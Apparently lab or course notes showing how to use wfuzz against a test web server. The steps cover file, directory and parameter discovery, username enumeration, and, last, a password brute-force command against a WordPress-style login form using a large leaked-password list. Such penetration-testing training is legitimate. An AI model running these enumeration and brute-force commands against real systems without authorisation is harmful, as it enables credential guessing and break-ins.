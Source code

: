 
wfuzz --help

export URL="http://target:80/FUZZ"
echo $URL

our environment variable exported, let's start fuzzing some files in the web root. We'll run wfuzz with -c to display color output, -z file to specify the input source, and --hc to avoid non-existent and erroneous responses.

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"

To find directories using Wfuzz, let's re-export our environment variable with a trailing forward slash. We'll also update the list we're using in our Wfuzz command from raft-medium-files.txt to raft-medium-directories.txt.

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403,301 "$URL"

Further, we want to make sure when performing parameter discovery that we utilize the best wordlist we can. For this purpose, we have chosen a wordlist titled burp-parameter-names.txt, which contains approximately 2,588 possible parameter names.

export URL="http://target:80/index.php?FUZZ=data"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "$URL"

We will use the /usr/share/seclists/Usernames/cirt-default-usernames.txt wordlist for our purposes here. In our Kali Linux VM, let's point Wfuzz at the http://target:80/index.php?fpv=FUZZ endpoint.

wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404 http://offsecwp:80/index.php?fpv=FUZZ

We quickly notice that there are a lot of erroneous responses with our parameter values (specifically the 301 response code). To exclude these erroneous responses from our Wfuzz output, we will also add the --hc option with a value of a 301.

wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ

To begin targeting for our brute force attack, we'll provide the -d parameter to specifically fuzz the POST data of the endpoint provided in the below listing. We will also need to supply a value such as pwd=FUZZ for this to work properly. Lastly, we will make use of the --hc parameter with a value of 404 to avoid erroneous responses. In this case, a 404 message indicates a "not found" response.

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 200,404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"

